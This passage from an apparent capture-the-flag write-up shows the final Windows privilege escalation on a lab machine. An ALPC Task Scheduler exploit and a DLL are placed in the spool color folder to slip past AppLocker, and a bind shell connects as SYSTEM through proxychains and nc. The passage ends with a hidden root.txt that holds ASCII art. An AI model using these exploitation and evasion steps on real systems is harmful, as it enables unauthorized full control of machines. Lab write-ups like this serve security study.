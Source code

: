 I then uploaded both files to their respective directories. The .exe needs to be in `/Windows/System32/spool/drivers/color` so I can avoid AppLocker.
```
# ./hackback_write.py "/Windows/System32/spool/drivers/color/ALPC-TaskSched-LPE.exe" ALPC-TaskSched-LPE.exe
# ./hackback_write.py "/Windows/System32/yolo.log" PwnDll.dll
```

Executing the exploit...

```
C:\Windows\System32\spool\drivers\color>ALPC-TaskSched-LPE.exe
ALPC-TaskSched-LPE.exe
[+] Loading DLL
Creating directory: C:\Windows\System32\spool\drivers\color\..\..\..\..\..\programdata\etw
[+] If everything has gone well, you should have a SYSTEM shell!
```

And now I have a bind shell as SYSTEM:

```
# proxychains nc -nv 127.0.0.1 4300
ProxyChains-3.1 (http://proxychains.sf.net)
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Connected to 127.0.0.1:4300.
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

It looks like the Donkeys have one final troll, the `root.txt` is hidden and doesn't contain the flag:

```
C:\Users\Administrator\Desktop>dir /ah
dir /ah
 Volume in drive C has no label.
 Volume Serial Number is 00A3-6B07

 Directory of C:\Users\Administrator\Desktop

02/06/2019  11:20 AM               282 desktop.ini
02/09/2019  03:37 PM             1,958 root.txt
               2 File(s)          2,240 bytes
               0 Dir(s)  92,184,543,232 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt

                                __...----..
                             .-'           `-.
                            /        .---.._  \
                            |        |   \  \ |
                             `.      |    | | |        _____
                               `     '    | | /    _.-`      `.
                                \    |  .'| //'''.'            \
                                 `---'_(`.||.`.`.'    _.`.'''-. \
                                    _(`'.    `.`.`'.-'  \\     \ \
                                   (' .'   `-._.- /      \\     \ |
                                  ('./   `-._   .-|       \\     ||
                                  ('.\ | | 0') ('0 __.--.  \`----'/
                             _.--('..|   `--    .'  .-.  `. `--..'
               _..--..._ _.-'    ('.:|      .  /   ` 0 `   \
            .'         .-'        `..'  |  / .^.           |
           /         .'                 \ '  .             `._
```